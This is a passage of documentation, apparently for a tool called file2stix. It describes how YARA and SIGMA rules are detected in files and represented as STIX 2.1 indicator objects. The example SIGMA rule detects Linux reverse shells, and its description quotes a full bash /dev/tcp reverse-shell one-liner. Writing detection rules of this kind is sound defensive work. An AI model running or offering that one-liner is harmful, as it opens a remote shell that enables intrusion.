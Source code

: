 ```json
      }
    ]
  }
```

The YARA rule is first encoded with JSON escapes before it is saved in the `pattern` value. e.g.

```
rule dummy\r\n{\r\n    condition:\r\n        false\r\n}
```

The `<RULE NAME>` is defined between the text `rule ` and first `{` (e.g. `dummy` in the last example).

### 19. SIGMA Rule Observables (`indicator`)

e.g. 

```yaml
title: Linux Reverse Shell Indicator
id: 83dcd9f6-9ca8-4af7-a16e-a1c7a6b51871
status: experimental
description: Detects a bash contecting to a remote IP address (often found when actors do something like 'bash -i >& /dev/tcp/10.0.0.1/4242 0>&1')
date: 2021/10/16
author: Florian Roth
logsource:
   product: linux
   category: network_connection
detection:
   selection:
      Image|endswith: '/bin/bash'
   filter:
      DestinationIp: 
         - '127.0.0.1'
         - '0.0.0.0'
   condition: selection and not filter
```

SIGMA Rules are detected if valid YAML containing three top level fields `title`, `logsource` and `detection` is present. If the three field names are detected, entire YAML content is ingested as the SIGMA rule.

SIGMA Rules are represented by [STIX Indicator SDOs (`"type": "indicator"`)](https://docs.oasis-open.org/cti/stix/v2.1/csprd01/stix-v2.1-csprd01.html#_Toc16070633) with [`"pattern_type": "sigma"`](https://docs.oasis-open.org/cti/stix/v2.1/os/stix-v2.1-os.html#_9lfdvxnyofxw).

Here is how SIGMA Rule observables are represented in STIX 2.1 by file2stix;

#### STIX 2.1 extension-definition

https://raw.githubusercontent.com/signalscorps/stix2-objects/main/extension-definition/extension-definition--94f4bdb6-7f39-4d0a-b103-f787026963a6/20220101000000000.json

#### STIX 2.1 indicator SDO
